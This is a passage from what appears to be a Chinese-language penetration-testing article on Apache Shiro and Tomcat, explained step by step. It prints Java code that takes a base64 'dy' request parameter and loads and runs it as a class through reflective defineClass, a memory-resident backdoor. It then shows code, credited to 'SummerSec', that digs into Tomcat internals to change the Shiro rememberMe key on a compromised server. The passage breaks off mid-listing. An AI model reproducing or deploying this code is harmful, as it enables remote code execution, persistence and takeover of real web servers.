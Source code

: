       5.         //获取dy参数保存的内容
    
      6.                         dy = (String) conreq.getClass().getMethod(\"getParameter\", new Class[]{String.class}).invoke(conreq, new Object[]{new String(\"dy\")});
    
      7.                         if (dy != null && !dy.isEmpty()) {
    
      8.                             //base64解码
    
      9.                             byte[] bytecodes = org.apache.shiro.codec.Base64.decode(dy);
    
      10.                             //获取defineClass方法
    
      11.                             java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod(\"defineClass\", new Class[]{byte[].class, int.class, int.class});
    
      12.                             defineClassMethod.setAccessible(true);
    
      13.                 //调用defineClass加载dy中保存的字节码
    
      14.                             Class cc = (Class) defineClassMethod.invoke(this.getClass().getClassLoader(), new Object[]{bytecodes, new Integer(0), new Integer(bytecodes.length)});
    
      15.                 //实例化对象并调用equals方法
    
      16.                             cc.newInstance().equals(conreq);
    
      17.                             done = true;
    
      18.                         }
    
    
    

### 修改shiro key

`SummerSec`师傅实现了修改shiro  
key的功能了，有了这个功能渗透就真的是比手速了，或许以后渗透还需到了解如何动态修补各种漏洞，哈哈，开个玩笑。

修改Shiro  
key的思路是找到`ShiroFilterFactoryBean`对象，从这个对象中可以拿到`remeberMeMamanger`，这个对象中可以获取加密和解密的密钥。

![]()

在`filterConfigs`中保存了`ShiroFilterFactoryBean`实例，因此可以从中获取key。

![]()

`SummerSec`师傅的实现代码如下,前面获取`filterConfigs`的代码就不分析了，和注册Filter内存马的时候一致。

    
          1. org.apache.tomcat.util.threads.TaskThread thread = (org.apache.tomcat.util.threads.TaskThread) Thread.currentThread();
    
      2.         java.lang.reflect.Field field = thread.getClass().getSuperclass().getDeclaredField("contextClassLoader");
    
      3.         field.setAccessible(true);
    
      4.         Object obj = field.get(thread);
    
      5.         field = obj.getClass().getSuperclass().getSuperclass().getDeclaredField("resources");
    